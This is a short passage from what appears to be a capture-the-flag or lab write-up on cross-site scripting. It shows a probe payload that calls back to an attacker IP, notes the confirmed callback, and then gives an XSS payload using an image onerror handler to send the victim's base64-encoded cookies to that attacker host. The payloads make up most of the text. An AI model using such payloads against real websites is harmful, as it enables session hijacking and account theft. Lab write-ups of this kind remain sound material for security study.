 - Payload

```javascript
<img src="http://10.10.14.88/a"/><a href="http://10.10.14.88/b">Test</a>
```

^3bf08a

![](/assets/obsidian/a8afb6a5b00645adbe356481f736b238.png)

Got a callback from target machine, confirmed there's XSS

![](/assets/obsidian/c03fee395117855fa9a309d6b607f472.png)

Craft a payload to steal cookies

- Payload

```javascript
Test!!!<img src=xx onerror=this.src="http://10.10.14.88/c/"+btoa(document.cookie);>
```

^c6fc5b
